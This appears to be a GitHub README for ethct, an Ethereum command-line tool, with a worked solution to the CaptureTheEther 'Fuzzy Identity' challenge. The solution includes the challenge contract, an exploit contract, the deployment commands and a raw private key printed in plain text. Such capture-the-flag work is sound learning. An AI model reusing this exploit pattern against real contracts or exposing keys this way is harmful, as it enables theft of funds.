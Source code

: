 ## Ethct: Ethereum contract tool (command line)

### 1. Now support:

* Contract compiliation
* Contract deployment
* Contract function calls
* Retrieve infomation from chain

### 2. Install

Install solc on MacOS:

```
brew tap ethereum/ethereum
brew install solidity
```

For Linux/Windows, please refer to the [Solidity documentation](https://solidity.readthedocs.io/en/latest/installing-solidity.html#binary-packages).

Install ethct:

```
pip install ethct
```

### 3. Usage

1. Config the tool first:

   ```
   ethct --config --privkey <PRIVKEY> --infurakey <INFURAKEY> --network <NETWORK>
   ```

2. Compile a contract and save the output files:

   ```
   ethct --compile <CONTRACT_FILE> --save
   ```

3. Deploy a contract on ropsten testnet:

   ```
   ethct --deploy <CONTRACT_FILE> --network <NETWORK> --contract <CONTRACT_NAME> --args '<PARAMETER0> <PARAMETER1> ...' --value <VALUE_IN_ETHER>
   ```

4. Call contract function:

   ```
   ethct --address <ADDRESS> --abi <ABI_FILE> --call '<FUNCTION_NAME> <PARAMETER0> <PARAMETER1> ...'
   ```

   If it's a payable function:

   ```
   ethct --address <ADDRESS> --abi <ABI_FILE> --call '<FUNCTION_NAME> <PARAMETER0> <PARAMETER1> ... value:<VALUE_IN_ETHER>'
   ```

   If the ABI file can be found in the current 'build' directory, just give the contract name:

   ```
   ethct --address <ADDRESS> --contract <CONTRACT_NAME> --call '<FUNCTION_NAME> <PARAMETER0> <PARAMETER1> ...'
   ```

5. Send raw transaction:

   ```
   ethct --sendtx --to <ADDRESS> --value <VALUE_IN_ETHER> --data <DATA> --nonce <NONCE>
   ```

6. Get contract storage:

   ```
   ethct --getstorage <ADDRESS> --position <INDEX>
   ```

7. Get block:

   ```
   ethct --getblock <BLOCKNUM>/latest/earliest/pending/<BLOCKHASH>
   ```

8. Get transaction:

   ```
   ethct --gettx <TXHASH>
   ```

9. Get balance:

   ```
   ethct --getbalance <ADDRESS>
   ```

10. Get nonce:

   ```
   ethct --getnonce <ADDRESS>
   ```

#### Example

Here is an example on how to use ethct, the contract is from [Fuzzy Identity Challenge](https://capturetheether.com/challenges/accounts/fuzzy-identity/).

Here is the challenge contract, your task is to set `isComplete` to `true`:

```js
pragma solidity ^0.4.21;

interface IName {
    function name() external view returns (bytes32);
}

contract FuzzyIdentityChallenge {
    bool public isComplete;

    function authenticate() public {
        require(isSmarx(msg.sender));
        require(isBadCode(msg.sender));

        isComplete = true;
    }

    function isSmarx(address addr) internal view returns (bool) {
        return IName(addr).name() == bytes32("smarx");
    }

    function isBadCode(address _addr) internal pure returns (bool) {
        bytes20 addr = bytes20(_addr);
        bytes20 id = hex"000000000000000000000000000000000badc0de";
        bytes20 mask = hex"000000000000000000000000000000000fffffff";

        for (uint256 i = 0; i < 34; i++) {
            if (addr & mask == id) {
                return true;
            }
            mask <<= 4;
            id <<= 4;
        }

        return false;
    }
}
```

The only way to set `isComplete` to `true` is call the `authenticate` function, but with 2 restrictions:

* The caller has to implement the `IName` interface, which means the caller has to be a contract.
* The address of the caller must contains `badc0de`, we know that contract addresses are generated deterministically in Ethereum with the rightmost 160 bits of the keccak256 result of the sender address and nonce in RLP encoding. After a while of brute forcing, we can get a right private key and nonce. [Code](https://github.com/ccyanxyz/capturetheether/blob/master/fuzzy_identity.js).

Here is our exploit contract:

```js
pragma solidity ^0.4.21;

import "./fuzzy_identity.sol";

/*
interface IName {
	function name() external view returns (string) {}
}
*/

contract returnSmarx is IName {
	function name() public view returns (bytes32) {
		return bytes32("smarx");
	}

	function exploit(address _addr) public {
		FuzzyIdentityChallenge c = FuzzyIdentityChallenge(_addr);
		c.authenticate();
	}
}

contract returnAddress {
	function keccakHash(address _addr, uint8 nonce) public returns (address) {
		return address(keccak256(0xd6, 0x94, _addr, nonce));
	}
}
```

We now have a private key `ca96819b848883b0694c8b284d55f1259849339e477e7d606f07ce0656fbe357` and a nonce value `6`,  the associate address is `0xe09FBEFc7FfE44FB5E825Edd797dE0160e1d7B3B`, we need to use this account to deploy the exploit contract and call the `exploit` funtion.

First, configure ethct with one of your own private keys:

```
ethct --config --privkey <YOUR_PRIVATE_KEY>
```

Transfer some ether to `0xe09FBEFc7FfE44FB5E825Edd797dE0160e1d7B3B`

```
ethct --sendtx --to 0xe09FBEFc7FfE44FB5E825Edd797dE0160e1d7B3B --value 0.1
```

Now switch account:

```
ethct --config --privkey ca96819b848883b0694c8b284d55f1259849339e477e7d606f07ce0656fbe357
```

Deploy `returnSmarx` contract:

```
ethct --deploy ./fuzzy_identity_solver.sol --contract returnSmarx
```

Note that the nonce should be `6` to generate the correct contract address, you can just deploy the contract 6 times, and you can check the nonce of the address use the following command:

```
ethct --getnonce 0xe09FBEFc7FfE44FB5E825Edd797dE0160e1d7B3B
```

Now we have successfully deployed the `returnSmarx` contract to address `0x433F86192F11A521261BAdC0dec67bf812360442` which contains `badc0de`.

Call the `exploit` function of `returnSmarx` contract at `0x433F86192F11A521261BAdC0dec67bf812360442`:

```
ethct --address 0x433F86192F11A521261BAdC0dec67bf812360442 --contract returnSmarx --call 'exploit 0xC56B60E8e91Dc1Bdf6231fb942cdbf5EAE74033C'
```

Or you can do it like this:

```
ethct --address 0x433F86192F11A521261BAdC0dec67bf812360442 --abi ./build/returnSmarx.abi --call 'exploit 0xC56B60E8e91Dc1Bdf6231fb942cdbf5EAE74033C'
```

Now we can check if  `isComplete` is set to `true` in the challenge contract at `0xC56B60E8e91Dc1Bdf6231fb942cdbf5EAE74033C`:

```
ethct --getstorage 0xC56B60E8e91Dc1Bdf6231fb942cdbf5EAE74033C --position 0
# result: 0x0000000000000000000000000000000000000000000000000000000000000001
```

And that's it, we just completed the Fuzzy Identity Challenge!

### 4. Why build this

To make my life easier completing the [CaptureTheEther](https://capturetheether.com) challenges.

![leaderboard](./imgs/leaderboard.png)

<div style="text-align: center">
<img src="./imgs/happynerd.gif"/>
</div>
